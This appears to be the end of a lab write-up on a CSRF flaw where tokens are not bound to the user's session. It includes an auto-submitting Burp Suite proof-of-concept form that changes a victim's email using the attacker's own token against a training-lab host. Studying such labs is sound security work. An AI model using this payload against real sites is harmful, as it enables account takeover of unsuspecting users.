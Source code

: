 The server just focus on the token whether its appear in its pool or not but not tied it to users session, which mean if the attacker create a account, which then they have a valid token, they can use it to continue perform the CSRF attack by using their own valid token to trick the server that every request to with the same token is all valid without concern.

```bash
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0ae500c304eb0a67c0be31540086002f.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="belloaloha&#64;hello&#46;net" />
      <input type="hidden" name="csrf" value="o9FlN5VnpZEqGlCdgmMLcWxbRgcdh7lB" />
    </form>
   <script>document.forms[0].submit();</script>
  </body>
</html>
```

### Appendix

[https://www.youtube.com/watch?v=9inczw6qtpY](https://www.youtube.com/watch?v=9inczw6qtpY)